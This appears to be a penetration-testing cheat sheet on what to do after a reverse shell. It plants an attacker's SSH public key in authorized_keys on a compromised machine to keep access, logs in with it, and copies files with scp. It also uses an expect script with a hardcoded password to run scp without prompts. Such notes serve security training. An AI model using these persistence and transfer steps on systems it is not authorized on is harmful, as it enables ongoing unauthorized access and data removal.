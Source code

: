 # ⭕ SSH

## SSH - SCP

### Generate Key Pair

if you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the /home/user directory you can find the hidden .ssh files by typing ls -la. Then you need to do two things:

#### Create a new keypair, You do that with:

```
ssh-keygen -t rsa -C "your_email@example.com"
```

This will create two files, one called nameOfMyKey and another called nameOfMyKey\_pub. The one with the \_pub is of course your public key. And the other key is your private.

#### Add your public key to authorized\_keys.

Now you copy the content of nameOfMyKey\_pub. On the compromised machine you go to \~/.ssh and then run add the public key to the file authorized\_keys. Like this

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

#### Log in.

```
ssh -i nameOfMyKey kim@192.168.1.103
```

## SCP File Transfer

#### Copy a file:

```
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext
```

#### Copy a directory:

```
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```

## non-interactive SCP

The only reason that a one-liner doesn’t work is because SCP prompts the user for a password, and simply echoing the password and piping it to the command won’t work. The list of commands to build the file looks like this:

```
echo '#!/usr/bin/expect' > scp.exp
echo 'spawn scp username@ip-addr:/path-to-file out-file' >> scp.exp
echo 'set pass "password"' >> scp.exp
echo 'expect {' >> scp.exp
echo 'password: {send "$pass\r"; exp_continue}' >> scp.exp
echo '}' >> scp.exp
```

To run this file

```
expect scp.exp
```

{% hint style="info" %}
you MUST use single quotes to surround the lines, as using double quotes will overlap with the double quotes that are included within the line, and will cause an issue with the first line
{% endhint %}
